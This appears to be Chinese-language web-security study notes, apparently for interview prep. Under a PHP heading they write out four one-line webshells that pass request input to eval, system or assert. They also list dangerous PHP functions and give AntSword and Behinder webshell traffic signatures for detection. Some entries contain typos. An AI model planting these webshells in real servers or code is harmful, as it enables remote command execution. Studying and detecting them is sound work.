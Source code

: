 ## 

## python

1. 

## javascript+html+css

1.常用重要的函数举例

alert() console.log() document.write() prompt() print() eval

2.js如何操作游览器 

使用f12看网页源代码，使用network查看发送的请求， 可以查看cookie本地存储信息,可以使用cookie对网站进行测试

## PHP

#### 1.PHP常见一句话木马 手写

```php
<?php eval($_PORT['cmd']);?>
<?php system($_GET['cmd']);?>
<?php assert($_POST['cmd']);?>
<?php include'shell.txt'?>

```

#### 2.PHP

(1)代码执行

eval preg_replace+/e,assert,call_user_func,call_user_func_array,create_function

(2)文件读取

file_get_contents() highlight_file() fopen() , readfiel(), fread(), fgetss(), fgets(), parse_ini_file(), show_source(), file()

(3)命令执行

system() exec() shell_exec() passthruu() pcntl_exec(), open(), proc_open()

3.php有哪些伪协议

## 协议分析

#### 1.常见webshell工具流量特征

蚁剑：无加密请求数据包，User-Agent: antSword/v2.1。蚁剑php类：@ini_set(“display_errors”,”0″);是明文比较好发现。ASP类：流量中进行URL其中的execute在蚁剑中被混淆，变成了拼接形式Ex”&cHr(101)&”cute。冰蝎：加密传输无法获取明文，发送GET请求，服务端会将密钥写入session中，发送给客户端。客户端获取密钥后会加密payload，使用加密的payload发送POST请求。基于GET请求包的检测特征：1.url包含.php?pass=；（密码如果被修改这个特征就会没用了），2.基于POST返回包的检测特征：Transfer-Encoding: chunked

2.wireshark 语法
